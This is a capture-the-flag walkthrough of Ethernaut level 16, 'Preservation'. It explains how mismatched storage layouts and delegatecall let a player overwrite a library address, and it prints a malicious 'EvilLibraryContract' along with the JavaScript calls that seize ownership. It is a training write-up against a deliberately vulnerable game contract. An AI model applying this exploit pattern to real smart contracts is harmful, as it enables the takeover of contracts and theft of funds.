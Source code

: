# Level 16: Preservation

This is the level 16 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites
- [Layout of state variables](https://docs.soliditylang.org/en/v0.8.11/internals/layout_in_storage.html#layout-of-state-variables-in-storage) in Storage
- Context preserving nature of [Delegatecall](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c) function

## Hack
Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

`player` has to claim the ownership of `Preservation`.

The vulnerability `Preservation` contract comes from the fact that its storage layout is NOT parallel or complementing to that of `LibraryContract` whose method the `Preservation` is calling using `delegatecall`.

Since `delegatecall` is context-preserving any write would alter the storage of `Preservation`, and NOT `LibraryContract`.

The call to `setTime` of `LibraryContract` is _supposed_ to change `storedTime` (slot 3) in `Preservation` but instead it would write to `timeZone1Library` (slot 0). This is because `storeTime` of `LibraryContract` is at slot 0 and the corresponding slot 0 storage at `Preservation` is `timeZone1Library`.

```
       |  LibraryContract         Preservation
--------------------------------------------------
slot 0 |     storedTime   <-   timeZone1Library
slot 1 |        _              timeZone2Library
slot 2 |        _                   owner
slot 3 |        _                 storedTime
```

This information can be used to alter `timeZone1Library` address to a malicious contract - `EvilLibraryContract`. So that calls to `setTime` is executed in a `EvilLibraryContract`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract EvilLibraryContract {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

Note that storage layout of `EvilLibraryContract` is complementing to `Preservation` so that proper state variables are changed in `Preservation` when any storage changes. Moreover, `setTime` contains malicious code that changes ownership to `msg.sender` (which would the `player`).

Let's start the attack!

First deploy `EvilLibraryContract` and copy it's address. Then alter the `timeZone1Library` in `Preservation` by:
```javascript
await contract.setFirstTime(<evil-library-contract-address>)
```
(a 32 byte `uint` type can accommodate 20 byte `address` value)

Now the `delegatecall` in `setFirstTime` would execute `setTime` of `EvilLibraryContract`, instead of `LibraryContract`.

Call `setFirstTime` with any `uint` param:
```javascript
await contract.setFirstTime(1)
```

Bang! `player` (`msg.sender`) is  set as `owner` through `setTime` of `EvilLibraryContract`.

Verify by:
```javascript
await contract.owner() === player

// Output: true
```

Level cracked!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

